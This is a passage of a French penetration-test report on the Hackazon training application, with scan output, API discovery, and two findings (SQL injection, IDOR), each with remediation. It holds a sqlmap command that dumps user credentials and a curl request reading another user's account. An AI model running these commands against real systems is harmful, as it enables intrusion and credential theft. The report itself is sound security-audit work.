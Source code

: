 
## 4. Résultats détaillés & PoC bruts

### 4.1 Scan réseau / services

```bash
nmap -sV -sC hackazon.trackflaw.com
443/tcp  open  ssl/http nginx
1234/tcp open  ssh  OpenSSH 10.0p2 Debian 5
9002/tcp open  http Apache 2.4.56 ((Debian))
```

### 4.2 Découverte web (dirsearch)

```bash
dirsearch -u https://hackazon.trackflaw.com/
302 - /admin  -> /admin/user/login
```

### 4.3 API Discovery (Swagger)

* `/api/auth`, `/api/product`, `/api/user/me`, `/api/cart/my`
  *→ Cartographie complète de l’API publique.*

---

## 5. Vulnérabilités détaillées

Chaque vulnérabilité est décrite avec : **Exploitation**, **Impact**, **Criticité**, **Remédiation**, **Priorité**.

### V-001 — Injection SQL

```bash
sqlmap -u "https://hackazon.trackflaw.com/product/view?id=64%67" -D hackazon -T tbl_users -C username,password --dump
```

**Impact :** Extraction des hashes et compromission base utilisateurs.
**Criticité :** Critique
**Remédiation :** Requêtes préparées, validation d’entrée, WAF anti-SQLi, journalisation.
**Priorité :** J+0

---

### V-002 — IDOR / Contrôle d’accès manquant

```bash
curl -X GET -H "Authorization: Token ..." https://hackazon.trackflaw.com/api/user/14
```

**Impact :** Modification de comptes d’autres utilisateurs.
**Criticité :** Critique
**Remédiation :** Vérification ownership, RBAC, refus 403 non autorisés.
**Priorité :** J+0

---